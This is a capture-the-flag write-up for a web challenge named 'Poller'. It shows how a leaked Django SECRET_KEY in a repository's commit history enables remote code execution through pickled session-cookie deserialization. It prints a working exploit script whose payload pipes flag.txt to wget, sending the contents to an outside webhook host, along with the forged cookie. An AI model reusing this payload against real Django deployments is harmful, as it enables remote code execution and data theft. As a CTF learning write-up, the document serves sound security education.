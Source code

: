 ```yaml
---
grand_parent: Categories
parent: Web
title: Poller
nav_order: 8
---
```


# Poller

```
Have your say! Poller is the place where all the important infosec questions are asked.
```

## Challenge

> TL;DR: Django Pickled Cookie Deserialization RCE

<img src="images/poller-1.png">

Visiting the page, it looks pretty static and if we examine the HTML source, we see a comment pointing to what appears to be the GitHub repository for this challenge:

<img src="images/poller-2.png">

Once we log into the website, it looks hardcoded and no dynamic input is really received. It feels like a deadend once you have tried the usual low-hanging fruits like IDOR.

<img src="images/poller-3.png">

So let's look at the GitHub repo. Examining the commit history, we see an interesting commit title "Added auth templates and rotated SECRET_KEY":

<img src="images/poller-4.png">

Examining it, we see that the `SECRET_KEY` used in the Django application has been changed away:

<img src="images/poller-5.png">

From our past experiences, this is thus far looking like a Django cookie deserialization RCE challenge. In this case, we would need to obtain this `SECRET_KEY` used in the Django process, then we can generate a cookie such that when it is deserialized, it would execute our specified code.

But first, we would have to find the new `SECRET_KEY`, which appears to be stored in the environment (.env file). If we look at the commit just after this one ("Added username and login/logout buttons to navbar"), we see that the `SECRET_KEY` has been leaked from hte `.env copy` file:

<img src="images/poller-6.png">

Now that we have the `SECRET_KEY`, we can use the following exploit script to generate a serialized cookie that contains the code we want to execute:

<!-- {% raw %} -->

```py
import subprocess
import pickle
from django.core import signing
from django.contrib.sessions.serializers import PickleSerializer

SECRET_KEY = '77m6p#v&(wk_s2+n5na-bqe!m)^zu)9typ#0c&@qd%8o6!'

class Exploit(object):
  def __reduce__(self):
    return (subprocess.Popen, (
      ("cat flag.txt | xargs -I {{}} wget https://webhook.site/e3c7ad5f-a6fc-4479-8a24-ca5b45376017?flag={{}}"),
      0, # Bufsize
      None, # exec
      None, #stdin
      None, #stdout
      None, #stderr
      None, #preexec
      False, #close_fds
      True, # shell
      ))

print(signing.dumps(Exploit(),
    key=SECRET_KEY,
    salt='django.contrib.sessions.backends.signed_cookies',
    serializer=PickleSerializer,
    compress=True))
```

<!-- {% endraw %} -->

Running the script to generate the cookie:

```bash
$ python3 cookie.py 
.eJxrYJ3axwABPVzFpUkFRfnJqcXFU3pYA_ILUvOmTJ6i0ZOanFiikJaTmK5XUlGiUKNQkViUXqyg66lQXV1bq1CenlqikFFSUlBspa9fnpqUkZ-frVecWZKqn2qcbJ6YYpqmm2iWlqxrYmJuqWuRaGSim5xommRiamxuZmBobg8y1xZk0BRvBj8Q6OwomRI0RQ8Adg4zXg:1nl41C:Ozn-CsUev88lhp5gtmynDvXJd0M
```

Replacing the cookie and refreshing the page should result in us getting a callback on our controlled domain, containing the flag:

<img src="images/poller-7.png">

<img src="images/poller-8.png">

Flag: `flag{a6b902e045b669148b5e92f771a68d39}`
